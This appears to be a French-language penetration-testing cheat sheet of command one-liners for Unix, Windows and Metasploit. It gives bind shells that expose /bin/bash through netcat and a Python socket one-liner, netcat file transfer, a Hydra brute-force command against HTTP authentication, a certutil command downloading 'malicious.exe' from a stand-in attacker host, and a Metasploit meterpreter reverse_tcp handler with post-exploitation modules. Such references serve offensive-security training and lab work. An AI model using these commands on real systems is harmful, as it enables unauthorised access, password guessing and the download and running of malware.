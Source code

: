 <h2>Unix</h2>
Accorder les permissions pour un user specifique

```
setfacl -m u:username:rwx myfolder
```
Tunnel ssh dynamique sur le port local 8080:

```
ssh -ND 8080 root@addressIP
```
Rebonds avec ssh:

```
ssh -J root@premier_rebond root@cible
```
Port forwarding avec ssh:

```
ssh -NL port_local:cible_distante:port_cible_distante root@rebond</br>
```
<h3>Obtenir un shell</h3>
Ouvrent un shell sur le port 2222 :

```
 nc -lkvp 2222 -e /bin/bash
 python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"
```
On se connecte avec nc -nv 2222 adress port
<h4>Pour avoir un shell pty :</h4>

```
python -c "import pty; pty.spawn('/bin/bash')"
```
<h4>Pour avoir tab completion tout joli :</h4>
Prendre un shell pty avec la commande plus haut

```
 CTRL-Z
 stty raw -echo
 fg
```

Envoi fichier avec netcat :

```
nc -l -p 1234 > out.file
nc -w 3 [destination] 1234 < out.file
```

Hydra:</br>
http-auth bute force

```
hydra -L user.txt -P password.txt -t12 -f x.x.x.x http-get / -V
```

XfreeRDP:

```
xfreerdp /f +clipboard /kbd:0x0000040C /u:USERNAME@DOMAIN /p:PASSWORD /v:IP
```
<h2>Windows</h2>

`systeminfo` pour obtenir des renseignements sur le systeme

`net users [username]` pour obtenir des renseignements sur les utilisateurs

`tasklist` pour lister les processus

`netstat -ano` pour les connexions reseau

`dir sysprep /s /b` pour trouver un fichier dans le repertoire courant et ses sous-dossiers

`wmic qfe list` pour lister les mises à jour installées

`certutil.exe -urlcache -split -f "https://hackers.home/malicious.exe" bad.exe` le wget en cmd

`certutil.exe -decode bad.txt bad.exe` le base64 decode en cmd

<h3>Powershell</h3>

`get-WmiObject -class Win32_Share`


<h2>Metasploit</h2>
Handler :

```
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.8.142
set LPORT 8888
set ExitOnSession false
exploit -j -z
```

use post/multi/recon/local_exploit_suggester</br>

`run post/windows/manage/migrate` pour changer sur un processus plus fiable</br>
